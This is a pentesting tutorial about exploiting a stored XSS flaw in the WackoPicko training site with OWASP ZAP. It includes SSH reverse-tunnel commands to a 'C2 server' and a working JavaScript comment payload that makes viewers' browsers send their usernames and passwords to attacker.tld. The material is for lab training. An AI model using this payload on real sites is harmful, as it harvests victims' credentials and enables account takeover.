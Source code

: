 +++
author = "Anthony Cozamanis"
title = "Exploiting Cross-Site Scripting to Capture Passwords With OWASP ZAP"
date = "2023-05-13"
description = "In this brief piece, you'll learn about using OWASP ZAP to obtain passwords through XSS."
tags = [
    "owsap",
    "zap",
    "pentesting",
]
series = ["OWASP ZAP"]
+++

WackoPicko is a website that includes common vulnerabilities, including a stored XSS vulnerability in its blog comment feature. This vulnerability can be exploited to retrieve a victim's username and password and subsequently gain access to their account by utilising OWASP ZAP.

![e8bba8fb1f1846b61738e8c2bca29515.png](/img/e8bba8fb1f1846b61738e8c2bca29515.png)

- Access your remote C2 server via SSH and modify `/etc/ssh/sshd_config` so the following are enabled:
```
AllowTcpForwarding yes
GatewayPorts yes
```
- Restart sshd with systemd:
```
sudo systemctl restart ssh
```
- From your attacking machine, create a tunnel via SSH from the remote server so that anything that hits port 38193 will be redirected to the attacker's instance of ZAP
```
ssh -N -R 38193:localhost:38193 user@attacker.tld
```
- Going back to ZAP, open the Options menu and go to the go to "Callback Address" entering the following:

![c0189e9bd3e534db36df492376038540.png](/img/c0189e9bd3e534db36df492376038540.png)

- Go back to the Guestbook and submit the following payload in a blog comment, inserting your Test URL:

```js
<input name=username id=username>
<input type=password name=password onchange="if(this.value.length)fetch('http://attacker.tld:38193/ZapTest',{
method:'POST',
mode: 'no-cors',
body:username.value+':'+this.value
});">
```
- This script will make anyone who views the comment issue a POST request to `http://attacker.tld:38193/ZapTest` containing their username and password.
- Go back to the Callbacks tab (which you may need to add)
- Take a note of the value of the victim's username and password in the POST body.

![491e3b93af3f65d31ff2d53597aba78f.png](/img/491e3b93af3f65d31ff2d53597aba78f.png)